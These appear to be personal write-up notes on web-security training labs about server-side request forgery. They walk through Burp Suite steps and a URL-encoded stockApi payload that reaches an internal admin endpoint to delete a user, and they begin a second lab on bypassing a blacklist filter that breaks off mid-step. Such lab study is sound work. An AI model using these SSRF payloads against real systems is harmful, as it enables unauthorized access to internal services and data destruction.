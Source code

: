 ```bash
Request to delete username "carlos"
Upon failure go to: HTTP history
Find end-point:

GET /http://192.168.0.36:8080/admin/delete?username=carlos HTTP/1.

Copy:

/delete?username=carlos

Go back to repeater and add on the above content and ensure it is URL-encoded (Did not test w/out URL-encode, but it most likely should work the same)

stockApi=http%3A%2F%2F192.168.0.36%3A8080%2Fadmin%2Fdelete%3fusername%3dcarlos

Response:

HTTP/1.1 302 Found

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514230225.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514230443.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514230334.png)


![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514225825.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514225806.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514231108.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514231201.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514231230.png)

### SSRF with blacklist-based input filter
```bash

#### This lab has a stock check feature which fetches data from an internal system.

#### To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

#### The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Note the end-point being URL-encoded (Decode the URL-encode by using Ctrl+U when selected and visa versa)
Change:

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

To

http:/localhost
```